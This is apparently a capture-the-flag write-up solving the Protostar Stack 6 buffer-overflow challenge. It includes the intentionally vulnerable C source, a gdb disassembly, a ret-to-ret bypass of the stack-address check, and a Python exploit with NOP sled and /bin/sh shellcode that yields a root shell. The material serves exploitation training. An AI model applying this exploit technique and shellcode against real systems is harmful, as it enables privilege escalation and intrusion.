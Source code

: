 # PROTOSTAR : STACK 6
[Protostar:Stack6](https://exploit.education/protostar/stack-six/)

### **SOURCE CODE**
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```
### **CODE ANALYSIS**
#### Vulnerability
- Stack Buffer Overflow

The **main()** calls **getpath()** function and the **buffer** variable is located in **getpath()**. The **gets** is vulnerable to Buffer Overflow and it takes **buffer** input. After filling the **buffer** we cannot directly go to stack address because of **stack address restrictions**.

### **SOLUTION**
Below is the disassembly of the **getpath()** function.
```
user@protostar:/tmp$ gdb -q /opt/protostar/bin/stack6
Reading symbols from /opt/protostar/bin/stack6...done.
(gdb) set disassembly-flavor intel
(gdb) disass getpath
Dump of assembler code for function getpath:
0x08048484 <getpath+0>: push   ebp
0x08048485 <getpath+1>: mov    ebp,esp
0x08048487 <getpath+3>: sub    esp,0x68
0x0804848a <getpath+6>: mov    eax,0x80485d0
0x0804848f <getpath+11>:        mov    DWORD PTR [esp],eax
0x08048492 <getpath+14>:        call   0x80483c0 <printf@plt>
0x08048497 <getpath+19>:        mov    eax,ds:0x8049720
0x0804849c <getpath+24>:        mov    DWORD PTR [esp],eax
0x0804849f <getpath+27>:        call   0x80483b0 <fflush@plt>
0x080484a4 <getpath+32>:        lea    eax,[ebp-0x4c]
0x080484a7 <getpath+35>:        mov    DWORD PTR [esp],eax
0x080484aa <getpath+38>:        call   0x8048380 <gets@plt>
0x080484af <getpath+43>:        mov    eax,DWORD PTR [ebp+0x4]
0x080484b2 <getpath+46>:        mov    DWORD PTR [ebp-0xc],eax
0x080484b5 <getpath+49>:        mov    eax,DWORD PTR [ebp-0xc]
0x080484b8 <getpath+52>:        and    eax,0xbf000000
0x080484bd <getpath+57>:        cmp    eax,0xbf000000
0x080484c2 <getpath+62>:        jne    0x80484e4 <getpath+96>
0x080484c4 <getpath+64>:        mov    eax,0x80485e4
0x080484c9 <getpath+69>:        mov    edx,DWORD PTR [ebp-0xc]
0x080484cc <getpath+72>:        mov    DWORD PTR [esp+0x4],edx
0x080484d0 <getpath+76>:        mov    DWORD PTR [esp],eax
0x080484d3 <getpath+79>:        call   0x80483c0 <printf@plt>
0x080484d8 <getpath+84>:        mov    DWORD PTR [esp],0x1
0x080484df <getpath+91>:        call   0x80483a0 <_exit@plt>
0x080484e4 <getpath+96>:        mov    eax,0x80485f0
0x080484e9 <getpath+101>:       lea    edx,[ebp-0x4c]
0x080484ec <getpath+104>:       mov    DWORD PTR [esp+0x4],edx
0x080484f0 <getpath+108>:       mov    DWORD PTR [esp],eax
0x080484f3 <getpath+111>:       call   0x80483c0 <printf@plt>
0x080484f8 <getpath+116>:       leave  
0x080484f9 <getpath+117>:       ret    
End of assembler dump.
(gdb) 
```

*How to Bypass Stack Address Restriction*
- To bypass the **stack address restriction** we will return to   the function itself, then go to a stack address and place our shellcode there.

    Return address = **0x080484f9** 

```py
import struct
padding = "A"*80

ret = struct.pack("I",0x080484f9)

print(padding + ret)
```
Lets run it and check whether the program returns to the function itself.

```
(gdb) b *0x080484f9
Breakpoint 1 at 0x80484f9: file stack6/stack6.c, line 23.
(gdb) r < ./exploit
Starting program: /opt/protostar/bin/stack6 < ./exploit
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�AAAAAAAAAAAA��

Breakpoint 1, 0x080484f9 in getpath () at stack6/stack6.c:23
23      stack6/stack6.c: No such file or directory.
        in stack6/stack6.c
(gdb) x/4x $esp
0xbffff7ac:     0x080484f9      0x08048500      0x00000000      0xbffff838
(gdb) si

Breakpoint 1, 0x080484f9 in getpath () at stack6/stack6.c:23
23      in stack6/stack6.c
(gdb) 
```
If you observer the stack you will see the address of the function itself is on the stack and when it got popped the function pointer returned to itself.

Now let's write our Python Exploit code.

```py
import struct
padding = "A"*80

ret = struct.pack("I",0x080484f9)

stack = struct.pack("I",0xbffff7b0+20)

nop = "\x90"*100

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

print(padding + ret + stack + nop + shellcode)
```

Executing the program, we get the ROOT SHELL. Remember that the shell needs an input so I have used the **cat** command.
```
user@protostar:/tmp$ (python exploit.py; cat) | /opt/protostar/bin/stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�AAAAAAAAAAAA���������������������������������������������������������������������������������������������������������1�Ph//shh/bin��PS���

whoami
root

```
